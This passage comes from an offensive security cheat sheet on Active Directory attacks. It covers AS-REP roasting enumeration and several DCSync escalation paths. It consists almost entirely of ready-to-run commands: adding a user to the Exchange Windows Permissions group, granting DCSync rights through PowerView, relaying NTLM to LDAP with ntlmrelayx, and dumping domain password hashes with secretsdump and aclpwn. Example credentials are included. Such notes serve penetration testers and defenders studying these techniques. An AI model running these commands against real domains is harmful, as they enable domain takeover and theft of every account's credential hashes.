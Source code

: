 ```
PS > . ./PowerView.ps1
PS > Get-DomainUser -UACFilter DONT_REQ_PREAUTH
```

1. [PayloadsAllTheThings/Active Directory Attack.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#krb_as_rep-roasting)



### DCSync

Potential risk -- "Exchange Windows Permissions" group:

```
PS > net group "Exchange Windows Permissions" snovvcrash /ADD /DOMAIN
PS > net group "Remote Management Users" snovvcrash /ADD /DOMAIN
Or
PS > Add-ADGroupMember -Identity 'Exchange Windows Permissions' -Members snovvcrash
PS > Add-ADGroupMember -Identity 'Remote Management Users' -Members snovvcrash
```


#### Powerview (v2)

```
PS > Add-ObjectAcl -TargetDistinguishedName 'DC=example,DC=local' -PrincipalName snovvcrash -Rights DCSync -Verbose
```


#### Powerview (v3)

```
PS > $pass = 'Passw0rd1!' |ConvertTo-SecureString -AsPlainText -Force
PS > $cred = New-Object System.Management.Automation.PSCredential('EXAMPLE\snovvcrash', $pass)
PS > Add-DomainObjectAcl -TargetIdentity 'DC=example,DC=local' -PrincipalIdentity snovvcrash -Credential $cred -Rights DCSync -Verbose
```


#### ntlmrelayx.py + secretsdump.py

```
root@kali:$ ntlmrelayx.py -t ldap://127.0.0.1 --escalate-user snovvcrash
root@kali:$ secretsdump.py EXAMPLE.LOCAL/snovvcrash:'Passw0rd1!'@127.0.0.1 -just-dc
```

1. [dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
2. [blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)


#### aclpwn.py

```
root@kali:$ aclpwn -f snovvcrash -ft user -t EXAMPLE.LOCAL -tt domain -d EXAMPLE.LOCAL -du neo4j -dp neo4j --server 127.0.0.1 -u snovvcrash -p 'Passw0rd1!' -sp 'Passw0rd1!'
```

